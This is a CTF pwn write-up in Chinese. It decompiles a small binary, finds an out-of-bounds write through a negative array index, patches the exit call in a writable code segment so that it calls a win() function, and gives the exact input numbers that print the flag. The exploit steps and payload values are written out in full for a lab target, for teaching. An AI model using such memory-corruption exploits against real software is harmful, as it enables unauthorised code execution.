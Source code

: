 ghidra看代码:
```c
void main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  ulong local_28;
  ulong local_20;
  long local_18;
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  puts("The Poopolator");
  setup();
  while( true ) {
    local_18 = 0;
    printf(&DAT_00100bbc);
    iVar1 = __isoc99_scanf("%ld %ld %ld",&local_28,&local_20,&local_18);
    if ((((local_28 == 0) || (local_20 == 0)) || (local_18 == 0)) ||
       ((9 < local_18 || (iVar1 != 3)))) break;
    *(ulong *)(result + local_18 * 8) = local_28 ^ local_20;         // A
    printf("Result: %ld\n",*(undefined8 *)(result + local_18 * 8));
  }
                    /* WARNING: Subroutine does not return */
  exit(1);                                                           // B
}

void win(void)

{
  system("cat flag");
  return;
}
```


初看代码，很明显的利用A行实现任意地址写

因为B行，先不往rop方向考虑


安全参数:
```shell
$ checksec --file challenge
[*] '/home/goevil/share/pwn/challenge_50/image/challenge/challenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

发现GOT保护已开启，也不能修改GOT表

查看内存映射

![image-20220520014801494](.assets/xor/image-20220520014801494.png)

发现有可写的代码段，正好含括了main函数，于是想到修改B行为`win();`



计算偏移值，修改代码：

```shell
pwndbg> x/2i 0x0000555555400ac8
   0x555555400ac8 <main+148>:   call   0x555555400830 <exit@plt>
   0x555555400acd <main+153>:   mov    rax,QWORD PTR [rbp-0x10]
pwndbg> p win
$1 = {<text variable, no debug info>} 0x555555400a21 <win>
pwndbg> set *((int*)0x0000555555400ac8) = 0xffff54e8
pwndbg> x/2i 0x0000555555400ac8
   0x555555400ac8 <main+148>:   call   0x555555400a21 <win>
   0x555555400acd <main+153>:   mov    rax,QWORD PTR [rbp-0x10]
pwndbg> x/4w 0x0000555555400ac8
   0x555555400ac8 <main+148>:      0xffff54e8      0x458b48ff      0x4d8b48f0      0x558b48e0
```

至此，已经得到最终内存中需要的值



因为A行的操作数为ulong类型，长度为8字节，结合result的位置，易得三个输入数字为：

```
0x458b48ff00000000    0xffff54e8    -262887
```

即

```
5011179270433669120 4294923496 -262887
```
